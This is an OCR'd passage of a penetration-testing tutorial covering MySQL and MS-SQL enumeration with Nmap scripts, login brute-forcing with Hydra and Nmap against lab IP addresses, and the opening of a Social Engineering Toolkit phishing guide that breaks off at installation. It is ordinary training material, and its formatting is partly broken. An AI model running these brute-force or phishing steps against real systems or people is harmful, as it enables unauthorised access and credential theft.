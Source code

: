 
password "" exploit

#### **Use Nmap MySQL Scripts**

Nmap offers several scripts for enumerating MySQL services:

- **Empty Password Check**:

```bash

nmap -p3306 -sV --script=mysql-empty-password 192.168.56.106

- **MySQL User Enumeration**:
    
- nmap -p3306 -sV --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" 192.168.56.106
    
- **MySQL Databases Enumeration**:
    
- nmap -p3306 -sV --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''" 192.168.56.106
    

#### _**Brute-Force MySQL with Hydra**_

Use Hydra to brute-force MySQL login credentials:

hydra -l msfadmin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.56.106 mysql

### **MS-SQL Enumeration and Exploitation**

MS-SQL is Microsoft's SQL Server, and scanning for vulnerabilities can help identify potential attack vectors.

#### _**Scan MS-SQL Service**_

To scan MS-SQL services, use the following Nmap command:

nmap -p1433 --script ms-sql-info 192.168.56.105

#### _**MS-SQL Brute Force with Nmap**_

To brute-force MS-SQL logins, use Nmap with the ms-sql-brute script:

nmap -p1433 --script ms-sql-brute --script-args userdb=/usr/share/metasploit-framework/data/wordlists/unix_users.txt,passdb=/usr/share/wordlists/rockyou.txt 192.168.56.105

This command uses a user and password list to perform the brute-force attack.

### **Social Engineering Toolkit (SET) Tutorial**

The **Social Engineering Toolkit (SET)** is a powerful framework designed to facilitate social engineering attacks, especially phishing, and automate the process of targeting users. Below is a guide to help you understand and utilize SET effectively.

#### _**1. PhishInsight**_

To start, you can use **PhishInsight**, a free platform from TrendMicro for phishing simulation and analysis. Simply create an account to gain access.

#### _**2. Social-Engineering Toolkit (SET) Setup**_

**Installation:** To install the Social Engineering Toolkit (SET) on your system, run the following command:

```